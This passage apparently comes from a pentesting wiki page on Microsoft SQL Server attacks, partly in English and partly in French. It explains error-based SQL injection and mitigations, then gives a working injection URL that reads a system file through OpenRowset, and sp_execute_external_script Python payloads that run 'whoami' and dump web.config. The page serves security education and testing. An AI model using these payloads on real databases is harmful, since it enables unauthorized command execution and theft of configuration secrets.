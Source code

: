 This technique involves exploiting SQL injection vulnerabilities by manipulating the input in a way that triggers an error response from the Microsoft SQL Server. By carefully crafting the input, an attacker can extract valuable information from the error message, such as the structure of the database or the version of the SQL Server being used. This information can then be used to further exploit the system and gain unauthorized access.

To perform an error-based SQL injection attack, the attacker needs to identify a vulnerable input field that is not properly sanitized or validated by the application. Once a vulnerable input is found, the attacker can inject malicious SQL code that will cause an error when executed by the SQL Server.

The error message returned by the SQL Server can provide valuable insights into the underlying database structure. For example, if the error message includes a table or column name, it can indicate the presence of certain database objects. Additionally, the error message may reveal the version of the SQL Server, which can help the attacker in selecting the appropriate attack techniques.

To mitigate the risk of error-based SQL injection attacks, it is important to implement proper input validation and sanitization techniques. This includes using parameterized queries or prepared statements, as well as input validation routines to ensure that user-supplied data is properly sanitized before being used in SQL queries. Regular security assessments and penetration testing can also help identify and remediate any vulnerabilities in the application.
```
https://vuln.app/getItem?id=1+and+1=(select+x+from+OpenRowset(BULK+'C:\Windows\win.ini',SINGLE_CLOB)+R(x))--
```
### **RCE/Lecture de fichiers exécutant des scripts (Python et R)**

MSSQL peut vous permettre d'exécuter des **scripts en Python et/ou R**. Ces codes seront exécutés par un **utilisateur différent** de celui utilisant **xp\_cmdshell** pour exécuter des commandes.

Exemple de tentative d'exécution d'un **'R'** _"Hellow World!"_ **qui ne fonctionne pas** :

![](<../../.gitbook/assets/image (185) (1).png>)

Exemple utilisant Python configuré pour effectuer plusieurs actions :
```sql
# Print the user being used (and execute commands)
EXECUTE sp_execute_external_script @language = N'Python', @script = N'print(__import__("getpass").getuser())'
EXECUTE sp_execute_external_script @language = N'Python', @script = N'print(__import__("os").system("whoami"))'
#Open and read a file
EXECUTE sp_execute_external_script @language = N'Python', @script = N'print(open("C:\\inetpub\\wwwroot\\web.config", "r").read())'
#Multiline
EXECUTE sp_execute_external_script @language = N'Python', @script = N'
import sys
print(sys.version)
'
GO
```
### Lire le Registre
